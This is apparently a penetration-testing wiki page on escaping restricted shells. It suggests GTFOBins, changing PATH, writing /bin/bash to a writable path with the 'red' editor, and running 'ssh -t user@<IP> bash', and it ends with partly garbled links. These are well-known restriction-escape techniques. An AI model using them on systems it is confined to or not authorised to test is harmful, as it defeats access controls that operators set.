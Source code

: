 # Escaping from restricted shells - Jails

## **GTFOBins**

**Search in** [**https://gtfobins.github.io/**](https://gtfobins.github.io/) **if you can execute any binary with "Shell" property**

## Modify PATH

Check if you can modify the PATH env variable

```bash
echo $PATH #See the path of the executables that you can use
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin #Try to change the path
echo /home/* #List directory
```

## Create script

Check if you can create an executable file with _/bin/bash_ as content

```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```

## Get bash from SSH

If you are accessing via ssh you can use this trick to execute a bash shell:

```bash
ssh -t user@<IP> bash # Get directly an interactive shell
```

## Other tricks

\*\*\*\*[**https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/**](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)  
**\*\*\[**[https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells\*\*\]\(https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells**]%28https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)\)  
**\*\*\[**[https://gtfobins.github.io\*\*\]\(https://gtfobins.github.io](https://gtfobins.github.io**]%28https://gtfobins.github.io)\)  
**It could also be interesting the POST on** [**Bypass Bash restrictions**](../useful-linux-commands/bypass-bash-restrictions.md)\*\*\*\*

